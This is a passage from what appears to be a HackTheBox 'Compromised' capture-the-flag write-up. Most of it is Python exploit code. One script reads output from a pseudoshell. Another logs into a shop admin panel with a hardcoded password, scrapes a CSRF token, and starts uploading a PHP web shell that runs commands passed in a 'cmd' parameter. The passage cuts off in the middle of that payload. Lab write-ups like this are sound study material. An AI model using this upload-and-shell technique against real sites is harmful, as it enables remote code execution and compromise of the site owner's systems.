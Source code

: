 ```py
        output = r.get(url,proxies=proxies)
        print()
        print(output.text) 
        prefix = req.text
        url = url_restore

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='URL where the php is stored', required=True)
    args = parser.parse_args()
    
    url = args.url

    '''Here we call the functions'''
    setPseudo(url)

if __name__ == '__main__':
    main()
```

Now, let's make the part to upload the malicious php too

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2003:14:37.png)

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Read output from a pseudoshell
# Compromissed HackTheBox

import argparse
import requests
import sys
import os
import re
import urllib

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Let's login on the admin panel
def loginPage(rhost):
    print("[+] Let's Login ! [+]")
    url = "http://%s:80/shop/admin/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password": "theNextGenSt0r3!~", "login": "true"}
    r.post(url, headers=headers, data=data, proxies=proxies, allow_redirects=True)
    print("[+] Loged In Succeess !! [+]")

# Let's upload it
def maliciousUpload(rhost):
    print("[+] Let's upload the malicious file !! [+]")
    url = "http://%s/shop/admin/?app=vqmods&doc=vqmods" %rhost
    token_get = r.get(url, proxies=proxies, cookies=r.cookies)
    token = re.search('input.+?name="token".+?value="(.+?)"', token_get.text).group(1)
    data = '''<?php
if (isset($_REQUEST['cmd'])) {
    pwn($_REQUEST['cmd']);
```